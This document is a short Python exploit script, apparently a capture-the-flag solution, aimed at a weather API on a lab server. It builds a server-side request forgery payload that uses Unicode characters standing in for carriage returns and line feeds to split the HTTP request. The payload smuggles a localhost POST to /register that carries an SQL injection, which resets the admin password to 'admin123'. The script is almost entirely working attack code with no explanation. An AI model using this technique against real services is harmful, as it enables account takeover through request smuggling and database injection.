 ```python
import requests

machine = "206.189.28.151:31751"

url = 'http://{}/api/weather'.format(machine)

space = '\u0120'
car_return = '\u010D'
new_line = '\u010A'
rn = car_return + new_line 

username = "admin"
password = "test') ON CONFLICT (username) DO UPDATE SET password = 'admin123';--".replace(" ", space).replace("'", "%27").replace('"', "%22")
address = "127.0.0.1/" 

content_type_header = "Content-Type:" + space + "application/x-www-form-urlencoded"
content_length = "Content-length:" + space + str(len(username) + len(password) + 19) # 19 is the characters from username= plus &password=
host_header = "Host:" + space + "127.0.0.1"
post_request = "POST" + space + "/register"
http_tag = "HTTP/1.1"
parameters = "username=" + username + "&password=" + password

payload = (address + space + http_tag + rn + 
           host_header + rn + rn +
           post_request + space + 
           http_tag + rn + 
           host_header + rn +
           content_type_header + rn + 
           content_length + rn + rn +
           parameters + rn + rn +
           "GET" + space
           )


'''
127.0.0.1:8000 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-length: X

username=admin&password=admin123

GET

'''

headers = {
    "Host": "{}".format(machine),
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://{}/".format(machine),
    "Content-Type": "application/json",
    "Origin": "http://{}".format(machine)
}

json = {"endpoint": payload,"city":"Lisbon","country":"PT"}
```
